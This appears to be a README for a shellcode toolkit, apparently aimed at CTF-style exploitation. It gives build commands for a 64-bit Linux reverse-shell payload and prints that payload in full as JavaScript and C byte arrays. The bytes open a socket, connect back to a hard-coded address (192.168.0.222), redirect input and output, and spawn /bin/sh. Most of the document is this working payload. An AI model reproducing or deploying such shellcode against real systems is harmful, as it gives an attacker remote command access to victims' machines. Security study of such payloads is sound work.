 ## Make Shellcode

* build shellcode:

```shell
make shellcode SC=linux/reverse64IPv4

```

* build run elf:

```shell
make elf
```

* run shellcode:

```
./run ./shellcode
```

* shellcode to array:

```shell
╭─ 
╰─ python s2a.py shellcode
var JavaScript_shellcode = new Uint8Array([
    0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x6a, 0x00,
    0x5a, 0x6a, 0x29, 0x58, 0x0f, 0x05, 0x48, 0x97,
    0x6a, 0x00, 0x48, 0xb8, 0x02, 0x00, 0x30, 0x1b,
    0xc0, 0xa8, 0x00, 0xde, 0x50, 0x48, 0x89, 0xe6,
    0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05,
    0x6a, 0x02, 0x5e, 0x6a, 0x21, 0x58, 0x0f, 0x05,
    0x48, 0xff, 0xce, 0x79, 0xf6, 0x31, 0xc0, 0x50,
    0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x57, 0xb0, 0x3b, 0x48, 0x89, 0xe7,
    0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05,
])
char C_shellcode[] =
    "\x6a\x02\x5f\x6a\x01\x5e\x6a\x00"
    "\x5a\x6a\x29\x58\x0f\x05\x48\x97"
    "\x6a\x00\x48\xb8\x02\x00\x30\x1b"
    "\xc0\xa8\x00\xde\x50\x48\x89\xe6"
    "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    "\x6a\x02\x5e\x6a\x21\x58\x0f\x05"
    "\x48\xff\xce\x79\xf6\x31\xc0\x50"
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f"
    "\x73\x68\x57\xb0\x3b\x48\x89\xe7"
    "\x31\xf6\x31\xd2\x0f\x05"

```

## refs

[shellcode for CTF style exploitation](https://github.com/osirislab/Shellcode)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)
